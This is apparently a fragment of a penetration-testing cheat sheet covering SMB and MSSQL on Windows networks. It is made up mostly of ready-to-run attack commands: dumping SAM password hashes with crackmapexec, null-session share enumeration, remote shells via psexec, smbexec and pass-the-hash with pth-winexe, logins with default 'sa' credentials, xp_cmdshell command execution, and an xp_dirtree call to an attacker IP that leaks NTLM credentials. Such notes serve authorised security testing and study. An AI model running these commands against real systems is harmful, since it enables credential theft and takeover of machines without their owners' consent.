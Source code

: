 In case we have credentials of an admin user we can list ntlm hashes

```
crackmapexec smb <ip> -u "administrator" -p <password> --sam
```

## smbclient

Null sesion

```
smbclient -L <ip> -N
```

Authentication null session

```
smbclient //<ip>/<share> -N
```

Connection smb impacket

```
psexec.py WORKFROUP/<user>@<ip> cmd.exe
pth-winexe -U WORKGROUP/Administrator%<hash_ntlm> //<ip> cmd.exe
smbexec.py WORKGROUP/administrator@<ip> -hashes :<hash_ntlm>

```

# MSSQL - 1433

## mssqlclient.py

Take as a local user

```
mssqlclient.py WORKGROUP/user:user@<ip> windows-auth
```

User sa default mssql

```
mssqlclient.py WORKGROUP/<user>:<password>@<ip>
mssqlclient.py WORKGROUP/sa:sa@<ip>
mssqlclient.py WORKGROUP/sa@<ip>
```

Interacting with the shell

```
# Run commands
> xp_cmdshell "whoami"
# List shared resources at the network level
> xp_dirtree "\\<ip_attack>\shared\"
```

-----
